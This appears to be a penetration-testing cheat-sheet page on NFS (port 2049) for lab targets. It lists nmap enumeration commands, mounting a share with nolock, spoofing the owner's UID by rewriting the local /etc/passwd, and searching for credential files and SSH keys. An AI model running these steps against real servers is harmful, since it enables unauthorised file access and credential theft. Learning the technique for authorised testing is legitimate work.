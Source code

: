 # NFS - 2049

## NFS Information

## Mounting NFS Shares

Enumerate NFS shares with nmap:

```text
nmap -sV -p 111 --script=rpcinfo 10.10.10.10
nmap -p 111 --script nfs* 10.10.10.10
```

Mount with **-o nolock** to disable file locking, which is often needed for older NFS servers:

```text
sudo mount -o nolock 10.10.10.10:/home ~/home/
```

Replace the UID of the user we'll use to navigate through the temporary mount of NFS:

```text
sudo sed -i -e 's/1001/1014/g' /etc/passwd
cat /etc/passwd | grep pwn
```

We'll try to find sensitive files like SSH keys or anything related to credentials:

```text
ls -la
total 24
drwxr-xr-x 2 1014 1014 4096 Jun 10 09:16 .
drwxr-xr-x 7 root root 4096 Sep 17 2015 ..
-rwx------ 1 1014 1014
48 Jun 10 09:16 credentials.txt
```

